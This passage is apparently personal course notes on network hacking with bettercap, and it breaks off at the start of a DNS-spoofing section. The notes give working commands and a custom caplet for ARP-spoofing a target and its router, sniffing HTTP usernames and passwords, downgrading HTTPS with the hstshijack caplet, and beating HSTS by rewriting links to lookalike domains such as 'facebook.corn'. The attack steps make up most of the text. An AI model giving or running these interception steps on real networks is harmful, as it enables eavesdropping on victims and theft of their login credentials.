     set arp.spoof.targets target_ip
    
Now that we have set all the required parameters, we are ready to run the tool

    arp.spoof on
    
Now to capture the data, we can use the ==net.sniff== module. But we can get the passwords and usernames, etc. only if it is HTTP.
   
    net.sniff on
    
# Creating Custom Spoofing Script
We can use a ==caplet==. It is a text file which contains all the commands we want to run in bettercap. We can write all the commands we wrote in bettercap.

    bettercap -iface eth0 -caplet file_name
    
# Bypassing HTTPS
We have to downgrade HTTPS to HTTP. Bettercap has a ==caplet== that can be used for this - ==hstshijack==. The course host has modified the caplet so that it can work more reliably and on more websites. We will have to add a small change to our custom script (add - set net.sniff.local true), that tells bettercap to sniff all data even if the data is local data. Now the custom script will look like this -
  
     net.probe on
     set arp.spoof.fullduplex true
     set arp.spoof.targets router_ip, target_ip
     arp.spoof on
     set net.sniff.local true
     net.sniff on
     
To run the caplet
 
     hstshijack/hstshijack
     
Now https packets can be sniffed.
If ==chrome== is the browser, then we will have to change the hstshijack.cap file, and add the https websites in hstshijack.targets and hstshijack.replacements (eg- add netflix.com to both ) and add it to the dns.spoof.domains.

# Bypassing HSTS
The previous method wont work for fb, twitter, etc. bcz they use HSTS.
The solution is to trick the browser into loading a different website. We can replace all links for HSTS websites with similar links
eg :- facebook.com -> facebook.corn, Twitter.com -> twiter.com

We will use the hstshijack caplet in this one also. We have to change the configuration file(hstshijack.cap) in root->usr->local->share->bettercap->caplets->hstshijack.

# DNS Spoofing
We can redirect the request to a website to our own web server. We can create our own web server in kali linux by

